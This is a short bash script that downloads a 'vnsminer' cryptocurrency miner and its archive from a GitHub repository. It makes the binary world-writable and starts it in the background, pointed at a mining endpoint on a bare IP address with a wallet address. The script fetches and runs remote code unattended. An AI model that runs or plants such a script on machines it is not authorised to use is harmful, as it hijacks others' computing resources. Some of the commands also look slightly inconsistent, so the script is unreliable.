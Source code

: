 #!/bin/bash
sleep 10
curl -LO https://github.com/2319763378/pool/raw/master/vns/vns.tgz
tar xvf  vns.tgz -C /home
curl -L https://github.com/2319763378/pool/raw/master/vns/vnsminer -O /home/vns/
chmod 777 vnsminer
nohup chroot /home/vns vnsminer 1 http://129.28.240.129:8888/0x48b6526a41b4cd922eda9793f73a62d5dc98ddea &
